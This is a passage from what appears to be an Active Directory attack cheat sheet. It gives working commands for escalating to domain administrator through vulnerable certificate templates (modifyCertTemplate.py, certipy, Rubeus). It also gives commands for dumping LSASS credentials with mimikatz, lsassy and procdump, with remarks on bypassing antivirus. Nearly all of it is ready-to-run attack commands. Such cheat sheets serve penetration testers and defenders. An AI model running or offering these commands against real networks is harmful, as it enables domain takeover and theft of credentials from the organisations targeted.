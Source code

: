 ```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# pass the certificate with rubeus
.\Rubeus.exe asktgt /user:Administrator /password:pass /certificate:cert.pfx /ptt /nowrap
```

Linux

Using [modifyCertTemplate.py](https://github.com/tiyeuse/Active-Directory-Cheatsheet/tree/master/tools/modifyCertTemplate) and [certipy](https://github.com/tiyeuse/Active-Directory-Cheatsheet/tree/master/tools/certipy)

```
# saved all previous attributes before modification
python3 modifyCertTemplate.py corp.local/user:password -template template_name
python3 modifyCertTemplate.py corp.local/user:password -template template_name get-acl 

# disable manager approval
python3 modifyCertTemplate.py corp.local/user:password -template template_name -property mspki-enrollment-flag -value 2 

# disable signature requirements
python3 modifyCertTemplate.py corp.local/user:password -template template_name -property mspki-ra-signature -value 0

# enable SAN attribute
python3 modifyCertTemplate.py corp.local/user:password -template template_name -property msPKI-Certificate-Name-Flag -add enrollee_supplies_subject 

# add authentication EKUs
python3 modifyCertTemplate.py corp.local/user:password -template template_name -property mspki-certificate-application-policy -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.4.1.311.20.2.2'"

# request certificate for administrator
certipy corp.local/user:password@10.10.10.10 req -ca ca_name -template template_name -alt administrator
```


### Credential Harvesting

#### LSASS

##### Mimikatz
```
# On the machine (AV might block it)
.\mimikatz.exe "sekurlsa::logonPasswords full" exit

# Locally from a minidump
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" exit
```
##### Lsassy
```
lsassy -d <domain_name> -u <user> -p <password> -r -vv 10.10.10.10
lsassy -d <domain_name> -u <user> -p <password> -dc-ip 10.10.10.10 -r --procdump /path/to/procdump -vv 10.10.10.0/24
```
##### Procdump
```
# Dump lsass memory (PID might bypass AVs)
.\procdump64.exe -accepteula -ma lsass.exe lsass
.\procdump64.exe -accepteula -ma <lsass_pid> lsass

# Parse the dump locally on windows (see above) or with pypykatz
```